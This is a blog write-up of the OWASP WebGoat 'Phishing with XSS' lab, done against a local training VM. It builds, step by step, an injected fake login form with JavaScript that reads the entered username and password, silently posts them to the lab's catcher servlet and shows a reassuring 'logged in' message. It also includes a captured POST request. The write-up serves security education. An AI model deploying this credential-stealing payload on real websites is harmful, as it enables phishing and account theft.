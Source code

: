 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 8"
date:   2017-01-26 00:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Cross Site Scripting: Phishing with XSS
Instructions:

Below is an example of a standard search feature.
Using XSS and HTML insertion, your goal is to:

- Insert html to that requests credentials
- Add javascript to actually collect the credentials
- Post the credentials to http://localhost/webgoat/catcher?PROPERTY=yes...
- To pass this lesson, the credentials must be posted to the catcher servlet.

Nice, some more XSS. I'm actually really enjoying the XSS challenges. They seem to require a bit more craftiness than some of the other challenges, and this one looks like no exception. Login spoofing, credential grabbing, and sneaky javascript? Cool!

First off, let's try a test search and see what our attack vector looks like:

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/test-search.jpg">

Alright. So I don't see any clientside code that puts our search result on the page. I verified that by watching the request to the server and seeing it respond with the full HTML for the results page. So we're going to have to do some blackbox testing to see what we can get by any server side XSS filtering.

*Note*: I also found the full URL format for the credential catcher servlet in the server response:
```
http://localhost/WebGoat/catcher?PROPERTY=yes&user=catchedUserName&password=catchedPasswordName
```

So, if we look at the instructions, there are three separate steps in this injection:

- insertion of a fake login form
- insertion of a javascript function that will steal the creds from our inserted login form
- mechanism to send stolen creds to the servlet

Let's start with a little bit of test code. We only have one insertion point, so we have to put everything in at once. Let's try to pass a script and a login prompt to our user:

```
<script>
function testFunction() {
	return "test"
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="password" value="pass" type="TEXT"><br>{
<button type="button" onclick='javascript:alert(testFunction()")'>Login</button>
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/test-pop.jpg">

Nice! We can call arbitrary javascript code we write on button press. Now let's try to harness that to grab some user data. To complete this I had to do some research about how Document Object Models and Javascript interact. On load, a browser creates a DOM of the page that is structured something like this (Credit to [W3 Schools][dom-js]):

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/dom-model.gif">

Notice how everything on the page is an element. Well we can use a javascript builtin function called ```getElementById( id )``` on the ```document``` to access any element on the page (that we specify by its unique id). We can achieve this by creating variables in our injected script to access injected elements in our document. Let's try to set the ```id``` field of our username and password inputs to a value we like, and access them with our injected javascript:

```
<script>
function userCreds() {
	var username = document.getElementById("user").value;
	var password = document.getElementById("pass").value;

	return username + ":" + password
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="pass" value="password" type="TEXT"><br>
<button type="button" onclick='javascript:alert(`user:pass= ` + userCreds())'>Login</button>
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/user-pop.jpg">

Alright! So we successfully accessed the user data that we want. Now we need to send it to the servlet behind the scenes. Let's break out a friend we've seen before, ```XMLHttpRequest```, and steal some creds!

```
<script>
function stealCreds() {
	var username = document.getElementById("user").value;
	var password = document.getElementById("pass").value;

	var credURL = "http://192.168.56.101/WebGoat/catcher?PROPERTY=yes&user="+username+"&password="+password;

	var xmlHTTP = new XMLHttpRequest();
	xmlHTTP.open("POST",credURL, false);
	xmlHTTP.send(null);

	return "You were successfully logged in!";
}
</script>
<br>
<input id="user" value="username" type="TEXT"><br>
<input id="pass" value="password" type="TEXT"><br>
<button type="button" onclick='javascript:alert(stealCreds())''>Login</button>
```

Now we have a much more nefarious implementation of our script. First, it parses the data from the login fields and properly formats it into our waiting servlet url. Then we create a new ```XMLHttpRequest```, which we use to ```POST``` our stolen credentials to our servlet URL. Finally, we return the 'all clear' alert to our user so that no one is the wiser (and no one changes their password!). Let's see it in action:

```
POST /WebGoat/catcher?PROPERTY=yes&user=regularguy&password=password123 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=54&menu=900
Cookie: JSESSIONID=27BE2D33035F93B37F3998509C6AD48C; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Content-Length: 0
```

<img src="{{ site.baseurl }}/images/2017-01-25-webgoat_part_8/user-logged.jpg">

XSS'd! That was more challenging that a lot of the other problems so far, but also a lot of fun!

### References

1 [DOM Javascript][dom-js]

2 [DOM Value Accession][dom-accession]

3 [Javascript HTTP Requests][js-requests]

[dom-js]:http://www.w3schools.com/js/js_htmldom.asp
[dom-accession]:http://www.w3schools.com/js/js_htmldom_methods.asp
[js-requests]:http://stackoverflow.com/questions/247483/http-get-request-in-javascript
